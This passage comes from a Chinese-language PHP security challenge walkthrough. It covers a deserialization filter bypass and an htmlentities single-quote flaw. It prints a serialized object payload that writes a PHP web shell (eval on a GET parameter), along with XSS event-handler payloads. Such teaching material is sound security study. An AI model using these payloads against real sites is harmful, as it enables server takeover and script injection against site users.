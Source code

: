 + 如果正则配置正确，`O:+8` 绕过 [php反序列unserialize的一个小特性](https://www.phpbug.cn/archives/32.html)

```php
a:1:{i:0;O:8:"Template":2:{s:9:"cacheFile";s:9:"shell.php";s:8:"template";s:24:"<?php eval($_GET[1]); ?>";}}
```



## 12 - String Lights

> htmlentities

```php
$sanitized = [];

foreach ($_GET as $key => $value) {
    $sanitized[$key] = intval($value);
}

$queryParts = array_map(
    function ($key, $value) {
    	return $key . '=' . $value;
	}, array_keys($sanitized), array_values($sanitized));

$query = implode('&', $queryParts);

echo "<a href='/images/size.php?" .
    htmlentities($query) . "'>link</a>";
```

先看一下这两个函数

```php
implode ( string $glue , array $pieces ) : string
// 用 glue 将一维数组中的值拼接起来
    
htmlentities ( string $string [, int $flags = ENT_COMPAT | ENT_HTML401 [, string $encoding = ini_get("default_charset") [, bool $double_encode = true ]]] ) : string
// 将字符转换为 HTML 转义字符，也就是对一些特殊字符进行 HTML 实体编码
// 本函数各方面都和 htmlspecialchars() 一样， 除了 htmlentities() 会转换所有具有 HTML 实体字符
```

上面的代码用的是 `htmlentities()` 的默认参数

> **ENT_COMPAT**  | 会转换双引号，不转换单引号 
>
> **ENT_HTML401** | 以 HTML 4.01 处理代码

也就是说，不会对单引号进行实体编码

### payload

可以构造一个事件去触发 xss

```html
<a href='' onmouseover=alert(1)>xss</a>
<a href='' onclick=alert(1)>xss</a>
```
